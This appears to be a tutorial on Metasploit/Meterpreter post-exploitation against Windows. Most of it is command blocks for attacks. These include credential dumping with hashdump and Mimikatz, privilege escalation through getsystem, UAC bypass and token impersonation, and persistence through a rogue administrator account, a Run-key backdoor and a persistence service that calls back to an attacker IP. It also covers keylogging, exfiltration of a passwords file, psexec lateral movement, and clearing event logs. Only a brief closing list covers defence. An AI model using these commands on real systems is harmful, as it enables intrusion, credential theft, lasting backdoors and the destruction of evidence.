 Once you have gained access to a Windows machine using Metasploit and Meterpreter, post-exploitation involves leveraging that access to extract information, escalate privileges, maintain persistence, and move laterally within the network.

### **1. Gaining Access to a Windows System**
Before post-exploitation, you need an active Meterpreter session, typically obtained using:
- Exploiting a vulnerability (e.g., MS17-010 EternalBlue)
- Using a malicious payload (e.g., `windows/meterpreter/reverse_tcp`)
- Social engineering (e.g., phishing, malicious USB drop)

To check active sessions:
```bash
msfconsole
sessions -l
```
To interact with a session:
```bash
sessions -i <session_id>
```

---

## **Post-Exploitation Techniques**

### **2. System Enumeration**
Gather system details:
```bash
sysinfo
```
Get user details:
```bash
getuid
```
List running processes:
```bash
ps
```
Check network interfaces:
```bash
ifconfig
```
Retrieve environment variables:
```bash
getenv
```
Dump credentials (if running as SYSTEM):
```bash
hashdump
```

---

### **3. Privilege Escalation**
If the current user lacks administrative privileges, escalate using:
```bash
getsystem
```
If `getsystem` fails, try local privilege escalation exploits:
```bash
use exploit/windows/local/bypassuac
set SESSION <id>
exploit
```
Check for misconfigurations that allow privilege escalation:
```bash
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

---

### **4. Maintaining Persistence**
#### **Method 1: Creating a New User**
```bash
execute -f cmd.exe -i -H
net user hacker P@ssw0rd /add
net localgroup administrators hacker /add
```

#### **Method 2: Registry Persistence**
Add a registry entry to auto-start Meterpreter:
```bash
reg setval -k HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v backdoor -d "C:\\Users\\Public\\backdoor.exe"
```

#### **Method 3: Service Persistence**
```bash
run persistence -X -i 30 -p 4444 -r <attacker_ip>
```

---

### **5. Credential Dumping**
Extract stored credentials using Mimikatz:
```bash
load mimikatz
wdigest
kerberos
```
Dump credentials from LSASS:
```bash
run post/windows/gather/credentials/mimikatz
```

---

### **6. Capturing Keystrokes**
```bash
keyscan_start
```
To view captured keystrokes:
```bash
keyscan_dump
```
Stop keylogging:
```bash
keyscan_stop
```

---

### **7. Capturing Screenshots**
```bash
screenshot
```

---

### **8. Exfiltrating Files**
Download a file from the target:
```bash
download C:\\Users\\victim\\Desktop\\passwords.txt
```
Upload a file:
```bash
upload backdoor.exe C:\\Users\\Public\\backdoor.exe
```

---

### **9. Lateral Movement**
Pivot to another machine using a captured credential:
```bash
use exploit/windows/smb/psexec
set RHOST <target_ip>
set SMBUser <user>
set SMBPass <password>
exploit
```

---

### **10. Clearing Tracks**
Delete event logs:
```bash
clearev
```
Remove history:
```bash
rm -rf C:\\Windows\\Prefetch\\*
```

---

## **Defensive Measures**
Organizations can mitigate these attacks by:
- Applying patches (e.g., disable SMBv1)
- Using endpoint protection (EDR/XDR)
- Enabling Windows Defender Attack Surface Reduction (ASR)
- Implementing least privilege access
- Monitoring logs and PowerShell activity
